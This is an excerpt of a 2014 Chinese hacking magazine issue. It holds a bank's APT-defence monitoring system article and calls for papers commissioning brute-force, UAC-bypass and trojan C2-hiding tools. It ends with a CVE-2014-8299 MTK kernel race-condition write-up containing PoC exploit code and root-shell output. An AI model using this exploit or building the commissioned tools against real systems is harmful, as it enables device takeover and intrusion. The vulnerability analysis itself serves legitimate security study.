## APT 防护探索之天眼系统

文/图 xysky

APT（Advanced Persistent Threat），搞安全的同学肯定对这个概念不会陌生，但都会存在一些侥幸心理，不会发生在自己身上。笔者想说的是，既然是 Advanced，肯定不那么容易被发现。笔者曾有幸参与过某大型公司一起 APT 攻击事件的调查与分析工作，通过将各种安全事件回溯，初步定位最源头的机器。在该机器上，我们发现有系统刚安装时（2009 年）就种下的木马文件，以及后面多次升级后的新文件。通过分析及网上搜索资料，发现该木马后门曾经在 2012 年初被某杀毒厂商发现过，后面该木马不断进行升级改造，在该公司的某台不重要的服务器上潜伏长达 N 年都未被杀毒软件发现，直到最近有动作才被分析出来。有趣的是，我们发现案发前天晚上，木马作者将编译好的木马文件还上传到国外某多杀毒引擎网站进行过一次测试。事后该公司还联系外部某安全公司（这家公司非常低调，不写名字了）进行了更深入的分析，入侵了被对方控制的某台服务器，发现还有不少公司被这个团队持续控制中。由于其它方面比较复杂的原因，我们也不方便透露太多细节。笔者想说的是，APT 离我们并不遥远。

针对 APT 的防护，说到底，其实就是资源的比拼。舍得在安全上投入人力、物力、财力，才能把安全做好。而现实是，在企业做安全的朋友们更多的是想快速出成绩，而搞 APT 防护是最不容易出成绩的。华为公司在防护 APT 方面投入了大量资源，其不少思路值得我们学习。今天我要讲的是一套定制开发的安全客户端系统在我行 APT 防护中的一些应用。

### 思路探讨

APT 攻击难防，因为黑客能用的招太多了，系统漏洞、业务漏洞、社会工程等等，得先有个优先级，就轻就重得仔细掂量掂量。先得找出哪些是自己最重要的资产？这些资产在哪儿？怎么访问、共享这些资产？哪些访问途径是正常的？都是通过哪些程序访问，哪些是正常，哪些是不正常？

定制的木马文件依靠传统的杀毒软件是无法发现的，有没有其它方法？文件、可执行文件总得在机器上保存或者执行吧？可否通过黑白名单库来实现？被控制或者控制总会有网络流量吧？可否通过网络异常访问来发现？一般进来之后都会在本地翻翻看有没有价值的文件，然后再探测一下其它机器，这中间我们可以做什么？放置一些文件诱惑别人？部署蜜罐。

或 IPS？在我们发现的真实案例中，还有我们常见的自动扫描弱口令产生的 Windows 安全事件。收集这些信息到 SOC 平台统一关联告警处理？嗯，我们得控制终端，在终端上有自己的程序，才能最接近攻击发生的地方，于是我们定制开发了自己的安全客户端系统，并进行大面积实施，内部称之为“天眼”项目。

## 设计与实现

通过在 Windows、Linux 机器上部署自行开发的安全客户端，实现对系统层行为的实时监控，并通过 SOC 安全总控中心进行关联分析和报警处理。安全客户端能够接收和响应来自 SOC 平台的安全控制指令，执行相关安全处理操作。

## APT 方向

- 服务端的安全监测，进程、注册表、用户、驱动等的安全监测（该功能适用于服务器部署）；
- 可执行文件、DLL 等的黑白名单检测（其它企业也在尝试做，可以尝试与腾讯、360 合作共享）；
- 异常行为的监测（如访问重点服务器的特殊端口、非白 IP 列表访问特定服务器等），异常连入连出等；
- 利用蜜罐技术做些陷阱（蜜文件、蜜网站、蜜 FTP 等），锁定可疑人员。

## 数据安全方面

- 敏感数据扫描和发现功能。根据预先定义的敏感数据规则和定义，自动在后台进行周期性扫描，发现符合规则和定义的敏感数据。发现内容包括文件名、规则名、IP 地址、主机名等详细信息。
- 特定文件定位功能。能够对指定的文件进行定向搜索和定位，确定该文件在哪些电脑上存储。
- 外发监控，对外发渠道进行监控。
- 实现自动抓屏功能。

架构设计之初，我们考虑以下几个因素：

- 异构终端数据的信息上报：包括 Win 客户端、Win 服务器、Linux 服务器、蜜罐系统等具备不同安全属性与策略的上报程序；
- 海量日志的快速关联检索能力：日志量的增长必然会让普通关系数据库无法快速检索；
- 前端日志上报的负载均衡架构：极端情况下，同时上报数据的终端可能会有数万个，什么样的架构可以支撑（LVS、Nginx、MySQL 分表、读写分离等各种技术）？
- 客户端不影响工作：每个用户都要安装客户端，如果不稳定，这个项目将很难推广下去。


架构图

## 简要说明如下

- Worker：各种异构终端，用于产生、采集日志；
- Worker Config：对各种终端进行配置的服务器，这些配置服务器可以集中也可以分离；
- MySQL：Worker 的数据首先写入关系数据库 MySQL 中，并设置冷数据的过期处理策略；
- ElasticSearch：高效数据搜索引擎，用于直接与 Web 前端、SOC 交互；
- Web 前端：智能策略的结果展示，策略可以不断持续优化；
- SOC 集中事件管理：SOC 会同步安全客户端的所有数据，根据预设的事件条件，实时提供预警事件报告。

## 存储

根据经验分析，我们设计的数据存储配置为：

- 最近两周的数据作为热数据；
- 6 个月数据作为冷数据。

通过对预研客户端进行数据分析，单客户端每天大约产生 4.35MB 数据，假定以 5 万终端为部署目标，则：

- 单日日志数量约为 2 亿条，占据 212GB 存储空间；
- 14 天的热数据约为 28 亿条，占据 3T 存储空间；
- 3 个月的冷数据约为 180 亿条，占据 19T 存储空间；
- 6 个月冷数据约为 360 亿条，占据 38T 存储空间。

## 自身安全性

作为数万终端的管理中心，自身的安全性保障极为重要。近期韩国的银行、电视台发生过安全系统管理端被入侵，黑客通过管理中心下发“定时炸弹”，导致业务瘫痪的事故。因此系统自身安全性的设计也非常重要。

## 客户端

因为这个项目不需要用户来操作使用，所以基本不用和用户进行界面交互，不影响用户使用是最优先考虑的需求，其次才考虑功能。客户端因为部署在大量的终端电脑上，而要监控进程与网络还得对系统的一些关键函数做一些 hook 处理，所以与各种应用软件做兼容性测试是很有必要的（在实际测试过程中我们就发现其与深信服的 LSP 模块存在冲突，后面进行了修复）。

## 系统运维

我们在两年时间内部署了总行和三个分行，后期会推广到全行。在这两年时间内，我们边开发边上线，遇到问题随时解决，每更新一个版本之前都想好回退方案，目标就是对用户影响最小。

目前系统发现预警事件基本上实现自动化了，客户端采集原始日志事件，经过系统过滤录入到数据库，系统的分析系统和我们的 SOC 系统根据预设的事件条件预报事件报告。

那么我们运维需要考虑的事大概是这些：

- 策略是否准确，会不会产生误报、漏报？
- 针对海量日志，大数据怎么分析？预警事件该如何定义？
- 事件汇报后该采取什么措施和行动？
- 产生误报、漏报该怎么办？
- 怎么确保客户端是正常工作的？

针对这些问题我们是这样做的：

- 策略准确与否和实际使用过程有很大关系，加强上线前的测试和上线后改进优化，会打磨得越来越好；
- 大数据分析我们一般采用先易后难、先单纯再复杂，先单个条件进行分析，再组合条件进行分析，再进行多维关联分析，定义出预警事件模板；
- 事件后的措施和行动一定要联合一切可以联合的力量，才能有效果，有成就；
- 产生误报、漏报不可怕，及时改进，把误报和漏报降到最低；
- 我们增加了试车功能，每天会定期进行测试，看整个系统是否在正常工作。

## 实际效果

该项目部署终端数量截止现在有 5300 台左右，每天在 SOC 风险展示系统上产生的高风险事件达 40 条左右（刚上线时每天 300 多条事件，后面经过不断优化与调整优先级，目前是 40 条左右）。

黑白名单库功能（收集所有机器的可执行文件 MD5 值并放到后台进行关联分析，同时与外部对接）上线后，我们收集了 260 多万条信息，经过与外部接口联动，得到 100 多万条可信程序记录，343 个高危程序，其余是还没有来得及分析的未知程序及分析出来不是可信也不是高危的可疑程序。343 个文件，通过文件定位功能，很容易定位在哪些机器上分布这些文件，接下来的动作就是清理了（自动删除文件还是属于比较危险的操作，我们实际是通知相关人员处理）。这些数据还需要优化，需要有一套有效的运维机制来保证数量会越来越少，否则效果比较难体现。

随机蜜罐功能（即安装有安全客户端的机器会随机运行 HTTP 或 FTP，一段时间后自动退出，看这期间是否有人恶意连接，有连接就记录日志到后台）上线后，我们发现有个分行配置错了扫描器，从 A 分行扫描到了 B 分行；还发现有个 IP 通过 SQL 注入扫描我们的蜜罐，经调查该 IP 为外包人员使用，该外包人员向相关领导的解释是最近在学习 SQL 注入知识，于是尝试了一下。

最后说点令人意外的，由于我们对敏感文件进行了监控，在这个项目实施过程中，我们发现了某外包人员拷贝大量源代码到 U 盘的行为，经通报相关领导后，该份代码被及时拿回。这个事件也进一步推进了该项目的部署实施范围，从上往下强制安装，比我们去做工作效果来得实在好多了。

## 总结

在该项目实施过程中，我们花费了非常多的精力在功能优化与策略实施中，而且随着部署范围的扩大，后台的性能优化也花费了不少功夫。系统与 SOC 对接，在 SOC 上开发出针对性的 case 并纳入常态化运维，才确保该项目通过验收。

APT 防护，不是单靠一套软件就能实现的，不要以为想办法搞到一套 FireEye 或类似产品就结束了，其实要做的工作远远不止。

（完）

### 2014 年第 11 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 12 期部分选题如下，完整的选题内容请见每月发送的约稿邮件。

- 1. **绕过 Windows UAC 的权限限制**
  - 自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。
  - Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
  - Windows UAC 低权限下，进入系统后提高账户权限的方法。

- 2. **虚拟机穿透**
  - 主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

- 3. **同步下载邮件**
  - 假设本机当前系统已掌控，在用户登录 Web 邮箱时，能够自动后台同步下载邮件并保存，包括收件箱、发件箱、已发送邮件、联系人等信息，优先实现 Gmail、Yahoo 信箱。

- 4. **Windows7 屏幕保护密码获取**
  - 非重启系统状态下，本机（非远程受控）屏幕保护已启动，本地获取 Windows7 屏幕保护密码的方法。

- 5. **暴力破解 3389 远程桌面密码**
  - 要求：
    - 1) 针对 Windows 3389 远程桌面实现暴力破解密码；
    - 2) 读取指定的用户名和密码字典文件；
    - 3) 采用多线程；
    - 4) 所有函数都必须判断错误值；
    - 5) 使用 VC++2008 编译工具实现，控制台程序；
    - 6) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
    - 7) 支持 Windows XP/2003/7/2008。

- 6. **WEB 服务器批量扫描破解**
  - 针对目标 IP 参数要求：
    - 10.10.0.0/16
    - 10.10.3.0/24
    - 10.10.1.0-10.255.255.255
  - 针对目标 Web 服务器扫描要求：
    - 可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 Apache 或者 IIS 等（后文截断）。

具体参考如下：

|  |  |  |
|---|---|---|
| Tomcat | WebLogic | JBoss |
| Apache | JOnAS | WebSphere |
| Lotus Server | IIS(Webdav) | Axis2 |
| ColdFusion | Monkey HTTPD | Nginx |

- 3）针对目标 Web 服务器后台扫描  
针对目标进行后台地址搜索。

- 4）针对目标 Web 后台密码破解  
搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

## 7. 木马控制端 IP 地址隐藏

要求：

- 1）在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。
- 2）使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

## 8. Web 后台弱口令暴力破解

说明：

针对国际常用建站系统以及自编写的 WEB 后台无验证码登录形式的后台弱口令帐号暴力破解。

要求：

- 1）能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 2）根据抓取提交帐密的 URL，可自动或自定义选择提交方式，自动或自定义提交登录参数，这里的自动指的是根据默认字典；
- 3）可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 4）高级功能：默认字典跑不出来的后台，可根据设置相应的 Google、Bing 等搜索引擎关键字，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的帐密可通过 Google、Bing 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破帐密，如用户为 admin，密码可自动填充为域名，用户为 abcd@abcd.com，账户密码就可以设置为 abcd abcd 以及 abcd abcd123 或 abcd abcd123456 等简单帐密；
- 5）拓展：尽可能多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及帐密字典可自定义设置等。

## 9. 编写端口扫描器

要求：

- 1）扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2）扫描方式采用多线程，并能设置线程数；
- 3）将功能编写成 DLL，导出功能函数；
- 4）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5）尽量多做出错异常处理，以防程序意外崩溃；
- 6）使用 VC++2008 编译工具编写；
- 7）支持系统 Windows XP/2003/2008/7。

## 10. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 1）开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 2）不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 3）针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

## 11. 突破 Windows7 UAC

说明：

编写一个程序，绕过 Windows7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1）Windows UAC 安全设置为最高级别；
- 2）系统补丁打到最新；
- 3）支持 32 位和 64 位系统。

## 2014 年征稿启示

《黑客防线》作为一本技术月刊，已经 14 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实例均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效且不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

## 投稿格式要求

- 1) 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；
- 2) 在稿件末尾请注明您的账户名、银行账号，以及开户地，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3) 投稿方式和周期：  
  采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 4) 稿费发放周期：  
  稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 5) 根据稿件质量，分为一等、二等、三等稿件，稿费标准如下：

| 等级 | 稿费 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

- 6) 稿费发放办法：  
  银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7) 投稿信箱及编辑联系  
  投稿信箱：675122680@qq.com、hadefence@gmail.com  
  编辑 QQ：675122680

# 黑客防线

总第168期 2014

网站全新改版，欢迎访问：http://www.hacker.com.cn


- MTK设备提权漏洞详解
- 曝光知名报表控件ETCell多个0Day
- 网上银行客户端安全研究
- RFID入门—Mifare1卡破解分析
- UAF本质论

## 《黑客防线》12期文章目录

总第168期 2014年

#### 漏洞攻防

- MTK 设备提权漏洞详解（莫灰灰）······································3
- 曝光知名报表控件 ETCell 多个 0Day（爱无言）························11
- UAF 本质论（木羊）··············································15

#### 编程解析

- 网上银行客户端安全研究（下雨天）································18

#### 网络安全顾问

- Linux 密码破解技术研究（simeon）·······························25
- RFID 入门—Mifare1 卡破解分析（致敬 RadioWar）················29
- 制作 Delphi 程序注册机和补丁（冷家锋 刘虹伶）················35
- 2014年第12期杂志特约选题征稿··································43
- 2014年征稿启示··················································46

## MTK 设备提权漏洞详解

文/图 莫灰灰

CVE-2014-8299 漏洞主要是针对采用 MTK 芯片设备的一个提权漏洞。该漏洞最早是由 KeenTeam 团队的 zer0mem 和 nforest_ 在 10 月份的时候发现并上报的。该漏洞目前还没有详细的分析和利用代码出现，于是便有了此文。本文详细介绍了 CVE-2014-8299 漏洞的成因以及可以直接拿来使用的提权利用代码。

另外值得科普的是，CVE-2014-8299 是属于 TOCTOU 一类的漏洞。TOCTOU 是 time-of-check-to-time-of-use 的缩写，是指计算机系统的资料与权限等状态的检查与使用之间，因为某特定状态在这段时间已改变所产生的软件漏洞。它是竞争危害（race hazard），又名竞态条件（race condition）的一种，在多线程并发情况下比较容易发生。

竞态条件的漏洞近来被发现的案例较多。就在前不久被曝光的 CVE-2014-0196 漏洞也是一个竞态条件漏洞。据称该漏洞隐藏在 Linux 内核中长达 5 年之久，其原因就是因为 pty/tty 设备驱动在访问某些资源的时候没有正确的加锁处理，导致并发状态下存在竞态条件。

### 漏洞成因

上面的介绍只是一个科普，回过头来我们继续分析 CVE-2014-8299。关于该漏洞的成因，我们直接来看代码吧。古人曾曰：代码面前了无秘密，眼中有码，心中自然无码。

- 1) **file_operations**

在 Linux 内核下，所有的驱动设备都是以文件（file）的形式来被打开、操作、访问的。因此，首先来看下出问题的驱动 file_operations 的写法，如图 1 所示。


图 1

从上面的代码可以看出，这个出问题的驱动设备名为“misc-sd”。而且，这个设备主要实现了两个文件操作，一个是 open，处理函数为 simple_sd_open，这个函数很简单，直接返回 0 就完了；另一个是 ioctl，处理函数为 simple_sd_ioctl，出问题的地方也正是在这个函数里面。

- 2) **simple_sd_ioctl - 拒绝服务漏洞**

我们直接来看出问题的函数 simple_sd_ioctl，代码如图 2 所示（省略无关代码）。

```c
static long simple_sd_ioctl(struct file *file,
                            unsigned int cmd,
                            unsigned long arg)
{
    struct msdc_ioctl *msdc_ctl = (struct msdc_ioctl *)arg;
    int ret;
    if (msdc_ctl == NULL) {
        switch (cmd) {
#ifdef MTK_SD_REINIT_SUPPORT
        case MSDC_REINIT_SDCARD:
            ret = sd_ioctl_reinit(msdc_ctl);
            break;
#endif
        default:
            return -EINVAL;
        }
        return ret;
    } else {
        switch (msdc_ctl->opcode) {
        case MSDC_SINGLE_READ_WRITE:
            msdc_ctl->result = simple_sd_ioctl_single_rw(msdc_ctl);
            break;
        case MSDC_MULTIPLE_READ_WRITE:
            msdc_ctl->result = simple_sd_ioctl_multi_rw(msdc_ctl);
            break;
        case MSDC_GET_CID:
            msdc_ctl->result = simple_sd_ioctl_get_cid(msdc_ctl);
```

图 2

由代码可知，simple_sd_ioctl 函数总共接收三个参数，第一个参数 file 表示本设备的文件标识，我们不用关心。第二个参数 cmd 表示对应的操作，但是这个设备的主要操作不是由 cmd 来控制的，而是由第三个参数 arg 的 opcode 字段来控制。第三个参数 arg 是由用户层传递下来的一个名为 struct msdc_ioctl 的结构指针。

写过 Windows 主动防御代码的程序员都知道，由用户在应用层传递下来的参数始终是不可信的，到了驱动层中我们必须要对上层传下来的参数做校验并自己拷贝一份用来在后面的函数中使用。那么同样的道理，在 Linux 的设备驱动中，由用户层传递下来的参数也是不可信的，我们必须使用 copy_from_user 和 copy_to_user 等函数来保证用户空间的地址是可以在内核中访问的。

在上述的 simple_sd_ioctl 函数中，arg 参数被赋值到 msdc_ctl 参数后只是简单地使用了 if 语句来进行判空操作，之后如果参数不为空，就直接访问应用层的地址了，这里很明显是一个内核拒绝服务漏洞。应用层只要调用如下语句，即可造成 MTK 设备重启（经测试该问题在最新的魅族 mx4 设备中依然存在）：

```c
ioctl(fd, 0, (void*)1234);  // 调用完此行代码后，MTK 设备立即重启
```

- 3) **simple_sd_ioctl_multi_rw - 权限提升**

主要代码如图 3 所示（省略无关代码）。

```c
if (msdc_ctl->iswrite){
    msdc_data.flags = MMC_DATA_WRITE;
    msdc_cmd.opcode = MMC_WRITE_MULTIPLE_BLOCK;
    msdc_data.blocks = msdc_ctl->total_size / 512;
    if (MSDC_CARD_DUNM_FUNC != msdc_ctl->opcode) {
        if (copy_from_user(sg_msdc_multi_buffer, msdc_ctl->buffer, msdc_ctl->total_size))
            dma_force[host_ctl->id] = FORCE_NOTHING;
            return -EFAULT;
    } else {
        /* called from other kernel module */
        memcpy(sg_msdc_multi_buffer, msdc_ctl->buffer, msdc_ctl->total_size);
    }
} else {
    msdc_data.flags = MMC_DATA_READ;
    msdc_cmd.opcode = MMC_READ_MULTIPLE_BLOCK;
    msdc_data.blocks = msdc_ctl->total_size / 512;
    memset(sg_msdc_multi_buffer, 0, msdc_ctl->total_size);
}

// ...

sg_init_one(&msdc_sg, sg_msdc_multi_buffer, msdc_ctl->total_size);
mmc_set_data_timeout(&msdc_data, host_ctl->mmc->card);
mmc_wait_for_req(host_ctl->mmc, &msdc_mrq);

if (!msdc_ctl->iswrite){
    if (MSDC_CARD_DUNM_FUNC != msdc_ctl->opcode) {
        if (copy_to_user(msdc_ctl->buffer, sg_msdc_multi_buffer, msdc_ctl->total_size)){
            dma_force[host_ctl->id] = FORCE_NOTHING;
            return -EFAULT;
        }
    } else {
        /* called from other kernel module */
        memcpy(msdc_ctl->buffer, sg_msdc_multi_buffer, msdc_ctl->total_size);
    }
}
```

图 3

这个函数主要有以下几个问题：

- msdc_ctl 指针是由用户层传入内核层的地址，没做校验就直接使用了；
- 没有使用 copy_from_user 拷贝参数；
- sg_init_one、mmc_set_data_timeout、mmc_wait_for_req 调用序列会花费较长时间；
- msdc_ctl 结构里面的数据用户态可控。

### PoC 编写 - 任意内核地址写任意内容

继续来看有漏洞的代码，我注明了漏洞利用的关键位置，如图 4 所示。


图 4

- 1) 初步设想

仔细阅读完代码之后，我有了初步的利用设想：

- 应用层控制 `msdc_ctl->iswrite == 1`。
- 应用层控制 `msdc_ctl->opcode == MSDC_CARD_DUNM_FUNC`。
- 接着就走到了①的位置，`memcpy` 函数把 `msdc_ctl->buffer` 中的内容拷贝到全局变量 `sg_msdc_multi_buffer` 中保存，注意，此处完全可以是 payload 的地址。这个位置的好处是被拷贝的内容、大小都是完全由应用层可以控制的。
- 接着走到②的位置，这个操作序列需要花费较长的时间，使得应用层有足够的时间去改变 `msdc_ctl` 这个结构体里面的内容。
- 应用层控制 `msdc_ctl->iswrite == 0`。
- 应用层控制 `msdc_ctl->buffer` 为要修改的内核地址。
- 接着走到③的位置，`memcpy` 把①中设置的 payload 地址拷贝到了要修改的内核地址中。

这一系列一气呵成的步骤可以完美地达到任意内核地址写任意内容的目的，最终利用是提权、拒绝服务啥的就悉听黑客尊便了。

- 2) 利用难度

竞态条件漏洞在利用上往往要比 mmap、ioctl 等类型的漏洞困难，这其中有很多的不确定性。成功触发的因素和 CPU 的执行速度、多线程并发的时机等都有关系。

在我们的这个例子中，最主要的利用难度在于我们应用层调用 ioctl 函数进入内核层之前，`msdc_ctl->opcode` 的值必须等于 `MSDC_MULTIPLE_READ_WRITE`，否则不会进入到 bug 函数 `simple_sd_ioctl_multi_rw` 中。之后，在进入了 `simple_sd_ioctl_multi_rw` 函数之后，我们必须瞬间在应用层把 `msdc_ctl->opcode` 的值改为 `MSDC_CARD_DUNM_FUNC`，否则就不能进入到①中的 memcpy 中了。

上面的这个问题，时机上控制相对比较困难，好在经过我的测试，多次执行 ioctl 触发 exploit 的成功率相当高。

- 3) PoC 的编写

主线程代码如图 5 所示。

```c
ctl.iswrite = 1;
ctl.total_size = sizeof(void*);
ctl.buffer = (unsigned int*)&payload;
ctl.opcode = MSDC_MULTIPLE_READ_WRITE;

if (pthread_create(&thread, NULL, race, &ctl) != 0)
{
    close(fd);
    return ret;
}

g_flag = 1;

int ioret = ioctl(fd, 0, &ctl);
```

图 5

竞争线程的代码如图 6 所示。

```c
void* race(void* arg)
{
    struct msdc_ioctl* pctl = (struct msdc_ioctl*)arg;

    if (pctl == NULL)
        return NULL;

    while (g_flag == 0)
        ;

    // 进入到①
    pctl->opcode = MSDC_CARD_DUNM_FUNC;

    // 等待执行到②
    usleep(500);

    // 进入到③
    pctl->iswrite = 0;
    pctl->buffer = g_magic_addr;

    return NULL;
}
```

图 6

- 4) 执行结果

中兴 U960E 测试 root 结果如图 7 所示。


图 7

### PoC 编写 - 任意内核地址写 0

如果上面讲的任意内核地址写任意内容有一定的不可控性，那么任意内核地址写 0 这个利用就相对来说比较稳定多了，而且利用代码相对比较简单。继续上关键执行步骤代码，如图 8 所示。


图 8

- 1) 初步设想

应用层控制 `msdc_ctl->iswrite == 0`。

此时执行到①，memcpy 将全局变量 `sg_msdc_multi_buffer` 的内容置 0。

接着走到②的位置，这个操作序列需要花费较长的时间，使得应用层有足够的时间去改变 `msdc_ctl` 这个结构体里面的内容。

应用层控制 `msdc_ctl->opcode == MSDC_CARD_DUNM_FUNC`。

此时代码执行到③，将内容 0 拷贝到了用户层指定的地址 `msdc_ctl->buffer` 中。

这一系列一气呵成的步骤可以达到任意内核地址写 0 的目的，最终利用是提权、拒绝服务啥的就悉听黑客尊便了。

- 2) 方案优点

相对于 0x2 中说到的内核任意地址写任意内容来说，这个方案要更简单，利用也更稳定。

因为 0x2 方案中的第一步控制进入①的时机比较难把握。也就是说有两个竞争点，即①和③。

而 0x3 任意内核地址写 0 的方案只需要把握好一个竞争点，即③就能够实现利用了。而②这个 sg_init_one、mmc_set_data_timeout、mmc_wait_for_req 调用序列需要花费比较长时间，因此，给了用户层足够多的时间去修改 `msdc_ctl` 这个结构体里面的内容。

- 3) PoC 的编写

主线程的代码如图 9 所示。

```c
ctl.iswrite = 0;
ctl.total_size = sizeof(void*);
ctl.buffer = (unsigned int*)patch_addr;
ctl.opcode = MSDC_MULTIPLE_READ_WRITE;

if (pthread_create(&thread, NULL, race, &ctl) != 0)
{
    close(fd);
    return ret;
}

g_flag = 1;

int ioret = ioctl(fd, 0, &ctl);

close(fd);
```

图 9

竞争线程的代码如图 10 所示。

```c
void* race(void* arg)
{
    struct msdc_ioctl* pctl = (struct msdc_ioctl*)arg;

    if (pctl == NULL)
        return NULL;

    while (g_flag == 0)
        ;

    usleep(500);

    pctl->opcode = MSDC_CARD_DUNM_FUNC;

    return NULL;
}
```

图 10

具体的利用代码和内核任意地址写任意内容的代码差不多，但就是这么一丁点的细微差别就能达到完全不同的利用手法，想达到的目的也可能是完全不同的。因此，写漏洞利用代码思路要奔放，手法要多样。

- 4) 执行结果

中兴 U807 测试 root 结果如图 11 所示。

```bash
shell@android:/data/local/tmp $ ./test1
./test1
before getuid != 0
patch addr ok!
end getuid == 0
shell@android:/data/local/tmp # id
id
uid=0(root) gid=0(root) groups=1003(graphics),3001(net_bt_admin),3002(net_bt),...
shell@android:/data/local/tmp #
```

图 11

## 总结

从以上代码可以看出，该漏洞的出现完全是由编写该代码的程序员缺乏编码安全意识导致。底层驱动开发的程序员在编码的过程中更应该注重安全意识，不然其导致的后果通常要比应用层漏洞严重得多。

另外，MTK 的芯片解决方案覆盖了从低端到高端的各个水平的移动设备。由此可见，此漏洞的曝光对 MTK 设备的用户来说危害是巨大的，也希望 MTK 方面能尽快给出漏洞修复方案。

最后，我利用图 12 来概括下 CVE-2014-8299 等 TOCTOU 漏洞的主要成因，相信能让我们更好地理解上述漏洞产生的原理。


图 12

## 曝光知名报表控件 ETCell 多个 0Day

文/图 爱无言

